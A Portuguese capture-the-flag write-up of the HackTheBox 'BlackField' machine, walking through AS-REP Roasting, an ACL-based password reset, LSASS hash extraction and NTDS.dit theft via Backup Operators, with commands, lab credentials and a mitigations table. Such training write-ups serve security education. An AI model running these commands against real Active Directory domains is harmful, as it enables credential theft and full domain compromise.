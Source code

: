 # Write-up — BlackField (HackTheBox)

**Contexto/Box:** BlackField  
**Dificuldade:** Hard/Difícil  
> **Medium:** [Exploração Detalhada](https://medium.com/@andrewsferreira/explorando-blackfield-htb-97de56b5ecab)
---

## Enumeração

**Caminhos tentados e descartados:**  
- Scan inicial com `nmap` revelou portas típicas de AD (53, 88, 389, 445, 5985).  
- Tentativa de acesso SMB como convidado funcionou apenas parcialmente, listando `profiles$`.  
- Outras portas como HTTP/HTTPS não estavam disponíveis, descartando vetores baseados em Web.

**Abordagem confirmada:**  
- Enumeração SMB → coleta de nomes de usuários → ataques Kerberos.

Comandos utilizados:
```bash
nmap -p- --min-rate 10000 target_ip -oA scans/nmap-alltcp
nmap -p 53,88,389,445,5985 -sC -sV -T4 target_ip -oN scan.txt
```

---

## Exploração

**Passos objetivos:**  
- Identificamos contas com Kerberos pre-auth desabilitado → AS-REP Roasting.  
- Extraímos hash via `GetNPUsers.py` e quebramos com `john`.  

```bash
GetNPUsers.py -no-pass -dc-IP target_ip DOMAIN/user
john hash.txt --wordlist=rockyou.txt
```
Credenciais obtidas:  
`support : #00^BlackKnight`

**Alternativas consideradas:**  
- Kerberoasting → descartado inicialmente por falta de SPNs expostos.  
- Exploração de SMB via null session → sem sucesso.

---

## Pós-Exploração

**Movimento lateral:**  
- Com BloodHound, identificamos que `support` podia resetar senha de `audit2020`.  
- Alteramos a senha via RPC e acessamos compartilhamentos SMB.

```bash
bloodhound-python -c All -u support -p '#00^BlackKnight' -d domain.local -dc dc01
rpcclient -U support -I target_ip
smbclient //target_ip/forensic -U audit2020%TryH@arder!
```

**Loot e privesc:**  
- Encontramos dump do LSASS → extraímos hashes com `pypykatz`.  
- Conta `svc_backup` tinha privilégio de Backup Operators → criamos shadow copy e extraímos `NTDS.dit`.

```bash
diskshadow /s vss.dsh
secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
```

Obtemos hash do administrador e domínio totalmente comprometido.

---

## Mitigações

| Vetor                         | Correção Realista                                              |
|------------------------------|---------------------------------------------------------------|
| AS-REP Roasting             | Habilitar Kerberos pre-auth para todos os usuários.          |
| Privilégios excessivos       | Restringir ACLs que permitem reset de senhas via RPC.       |
| Dump LSASS / Backup Ops      | Habilitar LSA Protection e Credential Guard.                |
| Shadow Copy abuse            | Monitorar/Restringir criação de VSS por contas administrativas.|
| Enumeração SMB               | Restringir acesso anônimo e reforçar políticas de compartilhamento.|
| Auditoria                    | Habilitar Sysmon, logs PowerShell e alertas de criação de cópias de sombra.|

---

**Resumo:** Cenário envolveu enumeração avançada, AS-REP Roasting, abuso de ACLs e extração offline do NTDS. Medidas preventivas robustas são críticas para mitigar riscos.

---
